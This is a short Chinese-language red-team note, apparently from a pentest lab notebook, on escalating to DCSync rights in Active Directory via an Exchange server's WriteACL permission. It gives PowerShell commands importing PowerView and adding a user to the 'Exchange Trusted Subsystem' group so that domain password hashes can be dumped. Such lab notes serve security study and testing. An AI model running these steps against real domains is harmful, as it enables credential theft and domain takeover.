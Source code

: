 **相关文章**
- [域渗透——使用Exchange服务器中特定的ACL实现域提权](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E4%BD%BF%E7%94%A8Exchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%AD%E7%89%B9%E5%AE%9A%E7%9A%84ACL%E5%AE%9E%E7%8E%B0%E5%9F%9F%E6%8F%90%E6%9D%83/)

**复现**

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限, 那么当我们拿下 Exchange 服务器的时候, 就可以尝试使用 WriteACL 赋予自身 Dcsync 的权限.

使用 powerview，为当前 exchange 机器名用户增加 dcsync 权限, 然后抓取 hash
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
    ```
    Import-Module ActiveDirectory
    Import-Module .\PowerView.ps1
    import-module .\Microsoft.ActiveDirectory.Management.dll
    Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members test
    ```

    ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/10.png)

    ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/11.png)
